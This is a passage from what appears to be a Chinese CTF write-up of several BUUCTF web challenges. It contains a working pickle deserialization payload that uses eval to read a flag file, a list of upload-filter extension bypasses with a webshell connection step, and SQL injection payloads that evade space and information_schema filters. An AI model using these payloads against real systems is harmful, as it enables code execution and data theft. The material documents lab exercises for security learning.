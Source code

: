 使用师傅的脚本：
```python
import pickle
import urllib

class payload(object):
    def __reduce__(self):
       return (eval, ("open('/flag.txt','r').read()",))

a = pickle.dumps(payload())
a = urllib.quote(a)
print a
```
![](https://img-blog.csdnimg.cn/20200410223939765.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
得到`c__builtin__%0Aeval%0Ap0%0A%28S%22open%28%27/flag.txt%27%2C%27r%27%29.read%28%29%22%0Ap1%0Atp2%0ARp3%0A.`
最后点击一键大会员修改become的值
![](https://img-blog.csdnimg.cn/20200410230031110.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
最后得到flag
![](https://img-blog.csdnimg.cn/20200410230054983.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
参考：[掘地三尺有神明：BUUCTF-WEB-[CISCN2019 华北赛区 Day1 Web2]ikun](https://blog.csdn.net/weixin_43345082/article/details/97817909)
[王叹之：[CISCN2019 华北赛区 Day1 Web2]ikun](https://www.cnblogs.com/wangtanzhi/p/12178311.html)
[W4nder：[CISCN2019 华北赛区 Day1 Web2]ikun](https://blog.csdn.net/chasingin/article/details/103891849)
## [极客大挑战 2019]Upload
做一个简单的上传。
某些情况下绕过后缀名检测：`php,php3,php4,php5,phtml.pht`
![](https://img-blog.csdnimg.cn/20200317151158287.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
尝试了各种文件后，发现phtml可行，执行了php语句
![](https://img-blog.csdnimg.cn/20200317151257975.png)
蚁剑连接即可得到flag
![](https://img-blog.csdnimg.cn/20200317151512748.png)

## [SWPU2019]Web1
![](https://img-blog.csdnimg.cn/20200317173320339.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
有一个登录框，试了试万能密码失败，那就注册吧
![](https://img-blog.csdnimg.cn/2020031717340670.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
登录后发现有一个申请广告，在标题处输入11111111'，发现报错，应该是sql注入
![](https://img-blog.csdnimg.cn/20200317173911704.png)
禁用了or，空格等等，先使用union发现有22列
`-1'/**/union/**/select/**/1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,'22`
![](https://img-blog.csdnimg.cn/20200317174700872.png)
后面发现还可以用`-1'/**/group/**/by/**/22,'1`，一样可以爆出为22列
![](https://img-blog.csdnimg.cn/20200317202859789.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
查看数据库：`-1'/**/union/**/select/**/1,version(),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,'22`
![](https://img-blog.csdnimg.cn/2020031717482621.png)
接下来卡住了，看师傅wp，发现过滤了information_schema，使用师傅的payload：
```sql
-1'/**/union/**/select/**/1,(select/**/group_concat(table_name)/**/from/**/mysql.innodb_table_stats),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,'22
```
![](https://img-blog.csdnimg.cn/20200317180349908.png)
接下来是无列名注入，举栗子说明一下:
先是正常的查询：`select * from users;`